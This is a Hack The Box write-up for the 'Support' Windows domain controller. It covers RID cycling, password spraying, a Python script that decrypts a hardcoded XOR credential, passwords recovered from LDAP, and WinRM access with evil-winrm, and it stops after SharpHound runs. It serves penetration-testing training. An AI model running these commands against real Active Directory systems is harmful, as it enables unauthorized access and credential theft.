# Support — Hack The Box Writeup

| Field           | Value                          |
| --------------- | ------------------------------ |
| **Machine**     | Support                        |
| **OS**          | Windows (Server / AD Domain Controller) |
| **Domain**      | `support.htb`                  |
| **Hostname**    | `DC` (`dc.support.htb`)        |
| **Difficulty**  | Easy                           |
| **Role**        | Active Directory domain controller |

> All commands use the placeholder `$IP` for the target address. Replace it with the machine's IP before execution.

---

## Executive Summary / Attack Chain

The engagement starts from a completely unauthenticated position and escalates to **full domain compromise** (local administrator on the domain controller). The path is summarized below and detailed throughout the document:

1. **Footprinting** — A full TCP port scan identifies a Windows host running numerous Active Directory (AD) services, confirming the target is a domain controller.
2. **User enumeration** — Anonymous SMB access is denied, so RID cycling with `lookupsid.py` is used to harvest all domain users, building a valid user wordlist.
3. **Password spraying** — A first spray with a **null password** validates the `Guest` account, whose SMB permissions expose a readable share named `support-tools`.
4. **Static analysis** — The share contents include a custom compressed utility (`UserInfo.exe`). Decompiling it with **ILSpy** reveals a hardcoded, XOR-obfuscated credential that decrypts to the service account password for `ldap`.
5. **LDAP enumeration** — Using the `ldap` account, a full directory dump in **Apache Directory Studio** exposes an unusual plaintext value stored in the `info` attribute of the `support` user. That value turns out to be the account's password.
6. **Initial access** — `support` belongs to *Remote Management Users*, so access is obtained via **WinRM** (`evil-winrm`) as the `support` user. Group enumeration reveals membership in *Shared Support Accounts*.
7. **Attack path mapping** — **BloodHound / SharpHound** analysis shows the group chain grants the ability to perform **Resource-Based Constrained Delegation (RBCD)** against the domain controller's computer object.
8. **Domain compromise** — A rogue computer account is created, RBCD is configured on the DC, and a service ticket impersonating **Administrator** is requested and replayed via `psexec.py`, yielding a SYSTEM/Administrator shell and the **root flag**.

---

## 1. Reconnaissance & Enumeration

### 1.1 Full TCP Port Scan

Reconnaissance began by mapping the complete attack surface. Since no web application was assumed, a full TCP sweep (`-p-`) was preferred over relying on a default top-ports list — a shallow scan can silently omit high-numbered dynamic RPC ports that matter for AD.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv $IP -oG allPorts
```

**Flag rationale:**
- `-sS` — stealthy SYN half-open scanning, faster and more reliable than a full TCP connect scan.
- `--min-rate 5000` — maintain a sustained packet rate so the sweep of all 65535 ports completes within a reasonable time window.
- `-n` — disable reverse DNS; it adds latency and provides no value during enumeration.
- `-Pn` — skip host discovery (ICMP) because Windows hosts frequently block echo requests; this guarantees we still enumerate the host.
- `-oG` — "grepable" output, which keeps the results machine-friendly for subsequent parsing.

The scan exposed a clear AD fingerprint:

```
53, 88, 135, 139, 445, 389, 464, 593, 636, 3268, 3269,
5985, 9389, 49664, 49667, 49676, 49688, 49693, 49708
```



### 1.2 Service and Version Identification

With the port inventory known, a targeted scan (`-sCV`, combining `-sC` default scripts and `-sV` version detection) was run over the identified ports only. Restricting the scan to open ports is a deliberate trade-off: it saves time while still extracting banners, OS hints, and service fingerprints.

```bash
sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49688,49693,49708 -sCV $IP -oN targeted
```



### 1.3 Interpretation — Confirming the AD Role

The port matrix is unambiguous: DNS (53), Kerberos (88), MSRPC (135/593 and high dynamic ports), SMB (139/445), LDAP/LDAPS (389/636), the Global Catalog (3268/3269), **WinRM (5985)** and AD Web Services (9389) are all present. This combination is the canonical signature of an **Active Directory domain controller**. The findings also tell us exactly which protocols are worth attacking: `445`, `88`, and `5985` in particular.

---

## 2. Initial Enumeration of the Attack Surface

### 2.1 Anonymous SMB Access (Attempt)

With SMB confirmed open, the first pass was to attempt an **authenticated-less (null session)** connection. Many environments misconfigure the `Everyone`/`Guest` SID and grant anonymous read access to at least the IPC share — attempting this is cheap and can immediately reveal shares and usernames.

```bash
smbclient -L //$IP/
```

The attempt failed, meaning null sessions without credentials are not permitted. That rules out the "free" avenue and forces credential harvesting.



### 2.2 User Enumeration via RID Cycling

Because we had no credentials, we could not simply query authenticated interfaces. However, the **MSRPC endpoint (135)** exposes an information leak by design: the LSA policy translation routines let an unauthenticated caller walk the domain **SID** and resolve every **RID** into a username. `lookupsid.py` automates exactly this "RID cycling" and does not require a password when run with `-no-pass`.

```bash
lookupsid.py 'null'@$IP -no-pass > users.txt
```

Why this matters: a password spray is only as good as the username list it targets. Harvesting real accounts (rather than guessing) maximizes the probability that a reused or weak credential will hit a valid principal. The output contained both machine accounts and human users, distinguished by their `SidTypeUser` / `SidTypeGroup` descriptors.



### 2.3 Preparing the User Wordlist

The raw dump contains group and machine SIDs interleaved with user SIDs. To keep the spray clean and efficient (and to avoid lockout noise against unused machine accounts), the output was filtered to **user accounts only**.

```bash
grep SidTypeUser users.txt | awk '{print $2}' | cut -d '\' -f 2 > users_list.txt
```

The pipeline is read left-to-right: keep lines describing users → extract the `DOMAIN\user` field → drop the domain prefix → persist a tidy one-account-per-line list.



---

## 3. Password Spraying — Low-Hanging Credentials

### 3.1 Null Password Spray

Password spraying was chosen over brute force deliberately: **spraying** tries one (or very few) passwords against many usernames, whereas **brute forcing** hammers one account with many passwords. Spraying is far quieter, trips account-lockout policies far less often, and matches how real attackers behave.

The first spray tested the most common AD misconfiguration: accounts left with an **empty password** (`Guest` accounts and auto-created principals often keep this default). Using `--no-bruteforce` forces netexec to test each user with the single provided password (`''`) rather than pairwise combinations.

```bash
nxc smb $IP -u users_list.txt -p '' --no-bruteforce
```



The result validated **`Guest` with a null password**. While `Guest` is usually shunted into a restricted context, it is still a valid authenticated session and a legitimate foothold to inspect what the account can see.

### 3.2 Guest Account Share Enumeration

Every netexec SMB module accepts the `--shares` flag, which enumerates the valid credentials' accessible shares. This check is the immediate follow-up to a successful authentication: a valid account with no useful permissions is a dead end, whereas one readable share can be gold.

```bash
nxc smb $IP -u Guest -p '' --shares
```



A single meaningful share appeared: **`support-tools`**. The share name suggests the IT staff store operational tooling here — a classic hunting ground for custom utilities, leftover credentials, and misconfigured internal software.



We logged in with the validated anonymous session wrapped in the `Guest` identity:

```bash
smbclient -U='Guest' //$IP/support-tools
```

...and retrieved the available files:





---

## 4. Static Analysis of `support-tools`

### 4.1 Retrieving the Tool Package

The share contained a compressed archive with a custom binary inside: **`UserInfo.exe`**. The first instinct for a Windows binary on a Windows-targeting box is dynamic analysis (executing it), so running it under **Wine** was attempted to observe its behavior.

Dynamic observation (console output, exit behavior) yielded nothing actionable — likely because the binary depends on AD/LDAP server interaction or .NET APIs that Wine cannot emulate faithfully. This is a common detour; the correct pivot when dynamic analysis stalls is **static analysis**: inspect the code instead of running it.

### 4.2 Tool Identification

`UserInfo.exe` is a **.NET assembly** (its ilasm metadata and managed resources reveal this under inspection). Managed binaries are uniquely favorable to reverse engineering because they embed their own intermediate language (CIL), which decompilers reconstruct into near-identical high-level source.

For that purpose, **AvaloniaILSpy** — a modern, cross-platform fork of the widely used ILSpy decompiler — was downloaded:

```bash
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

The rationale behind choosing ILSpy over Ghidra/IDA here is pragmatic: for .NET code, CIL decompilers are far more productive than full disassemblers, because they recover structures, method bodies, and even string literals directly.

### 4.3 Reversing the Authentication Logic

Once decompiled, the code disclosed an LDAP-backed helper application: it takes a username and builds an LDAP bind \(`LDAP://...`\) and search filter to look the account up in the directory. From a pentest perspective, the interesting part is **how the application authenticates or stores secrets**. Reviewing the constants and helper methods, a base64-looking hardcoded string and a companion **obfuscation key** stood out.



The inspection revealed a classic *"security through obscurity"* failure: a developer buried a shared secret in the assembly using a **single-byte XOR cipher** with a static key (`armando`) and an XOR byte (`0xDF`). Single-byte XOR with a short, repeated key is trivially reversible, and embedding any credential in client-side code is a design weakness.

### 4.4 Decrypting the Hardcoded Secret

The cipher operates per byte as:

```
plaintext[i] = ciphertext_base64_decoded[i] XOR key[i % len(key)] XOR 0xDF
```

The base64 layer is merely encoding; the real protection is the XOR. Because XOR is its own inverse, applying the identical operation on the decoded bytes reproduces the original plaintext. This was implemented in Python:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

data = base64.b64decode(enc_password)
decoded = bytes((b ^ key[i % len(key)] ^ 0xDF) for i, b in enumerate(data))
print(decoded.decode())
```



The recovered plaintext credential was:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

The password was saved for the spray phase:

```bash
echo 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' > pass.txt
```

At this point we had a credential but **no confirmed owner**. A single password with a known user list is the ideal input for a second spray — this preserves the earlier reasoning: one candidate password against all known accounts.

```bash
nxc smb $IP -u users_list.txt -p pass.txt --no-bruteforce
```



The spray **validated the `ldap` account**, which now makes complete sense: this is a utility meant to query LDAP, so the vendor/administrators shipped it with the directory service account's password embedded. Credential reuse between the application and the real service account was the flaw, and the spray is what correlated the two.

---

## 5. LDAP Path — Directory Enumeration & Trust Pivot

### 5.1 Correlating the Decrypted Credential

We now hold a valid pair for an account named `ldap`. In Active Directory, such "service-like" account names almost always belong to a *service account* with scoped but meaningful rights. Inspecting the account's effective reach comes next.

### 5.2 Inspecting `ldap`'s Privileges

```bash
nxc smb $IP -u 'ldap' -p pass.txt --shares
```


The share enumeration showed `ldap` with **READ access to the `SYSVOL` share**. SYSVOL policy is informative, but the more interesting entitlement is the account's ability to **read the directory itself**. A service account used for LDAP queries typically holds read access to the whole directory tree — that gives us a structured, authoritative view of every object: users, groups, nested memberships, ACLs, and — crucially — **free-text attributes**.

### 5.3 Full Directory Hive Enumeration (Apache Directory Studio)

LDAP dumps are far more readable in a GUI than through raw CLI. **Apache Directory Studio** was used for that purpose:

```bash
# Download and launch ApacheDirectoryStudio
```

Then:
1. **Create a new connection** to the target.
2. Set the **hostname/domain** (`dc.support.htb`) and appropriate port.
3. **Authenticate** with the valid `ldap` credentials recovered earlier.







With the bind established, the full tree under `DC=support,DC=htb` was browsed — users, groups, computers and their attributes become available in one consolidated view.



### 5.4 The `info` Field — A Credential in Disguise

While auditing the `support` user object — notable to us because the target machine is named *Support* — an anomaly appeared. The `info` attribute (an otherwise free-text "description/notes" field) contained a non-descriptive string:

```
Ironside47pleasure40Watchful
```



**Reasoning for the pivot:** administrators sometimes paste credentials into user object attributes — `info`, `description`, or `userParameters` — as a lightweight "shared documentation" habit. A value that reads like a passphrase in a notes field of a privileged-looking account is a high-value lead. The loading of the *support* brand name plus its odd `info` content made it the strongest candidate. This was therefore hypothesized to be the account's password.

### 5.5 Validating the `support` Account

Hypotheses in a pentest are worthless until proven on the protocol. The suspected value was tested against SMB:

```bash
nxc smb $IP -u 'support' -p 'Ironside47pleasure40Watchful' --shares
```



The authentication succeeded. We had moved from an unauthenticated start to a **second, human-shaped domain account**.

---

## 6. Initial Access — WinRM Shell

### 6.1 Remote Management Users

Two facts now pointed to **WinRM as the access vector**:

1. Port **5985 (WinRM)** is open — this box exposes PowerShell remoting.
2. The LDAP dump showed `support` as a member of the **Remote Management Users** group.

SMB, by contrast, granted only READ access — nothing near a shell. Rather than fight the SMB protocol, we adopted the native remote-management path the account was permitted to use.

```bash
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i $IP
```



A full interactive PowerShell session on the target was obtained. With an authenticated shell in hand, the user flag is recovered from the account's desktop:

```
C:\Users\support\Desktop\user.txt
```

### 6.2 Reconnaissance From the Shell

With a foothold, the natural next questions are *"where can we go?"* and *"what can we control?"* — i.e., token and group enumeration on the compromised principal.

```bash
whoami /groups
```



Among the inherited groups, one stood out by name:

```
Shared Support Accounts
```

A custom (non-default) group is almost always where the interesting delegated rights live. While the immediate reaction could be to brute-search files and registry hives for further stored credentials, that approach is unfocused for AD. The decisive move is to map **who can do what** across the domain, which is exactly what BloodHound is built for.

---

## 7. Attack Path Discovery with BloodHound

### 7.1 Data Collection (SharpHound)

BloodHound needs a graph of the domain. The collection tool, **SharpHound**, was transferred into the session and executed through the WinRM channel:

```bash
upload SharpHound.exe
.\SharpHound.exe
```



